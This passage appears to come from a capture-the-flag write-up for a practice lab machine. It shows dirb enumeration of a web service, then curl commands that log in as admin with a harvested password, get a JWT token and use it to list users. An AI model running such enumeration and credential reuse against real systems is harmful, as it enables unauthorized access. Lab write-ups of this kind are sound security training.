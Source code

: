 I decided to first enumerate the serivce with dirb:

```
dirb http://10.10.10.137:3000

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jun  6 11:32:19 2019
URL_BASE: http://10.10.10.137:3000/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.137:3000/ ----
+ http://10.10.10.137:3000/login (CODE:200|SIZE:13)                                                                                  
+ http://10.10.10.137:3000/Login (CODE:200|SIZE:13)                                                                                  
+ http://10.10.10.137:3000/users (CODE:200|SIZE:56)                                                                                  

-----------------
END_TIME: Thu Jun  6 11:37:55 2019
DOWNLOADED: 4612 - FOUND: 3
```

Then, after getting the same message that I needed to authenticate, I googled the json string, which led me to find out that the service was implementing JWT tokens to authenticate users. Hence, I tried to use my credentials, which surprisingly worked!

Authenticate as ``admin:Zk6heYCyv6ZE9Xcg`` to ``/login``:

```
$ curl -s -X POST -H "Content-Type: application/json" --data '{"password":"Zk6heYCyv6ZE9Xcg", "username":"admin"}' http://10.10.10.137:3000/login
```

And the response is:

```
{"success":true,"message":"Authentication successful!","token":"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTYxLCJleHAiOjE1NTk0MjQzNjF9.r0i77u8Nw9tZkPHCqlyYrAoP6VdautVo7mSpIb9jfL4"}
```

Then, we can use the token to access some usernames under ``/users/``:

```
$ curl -H 'Accept: application/json' -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiaWF0IjoxNTU5MzM3OTgxLCJleHAiOjE1NTk0MjQzODF9.FaZX2S_Fsri6Xij_xz0ySQB7oKiTlD2XXGczd5VrEXA" http://10.10.10.137:3000/users/
[{"ID":"1","name":"Admin","Role":"Superuser"},{"ID":"2","name":"Derry","Role":"Web Admin"},{"ID":"3","name":"Yuri","Role":"Beta Tester"},{"ID":"4","name":"Dory","Role":"Supporter"}]
```
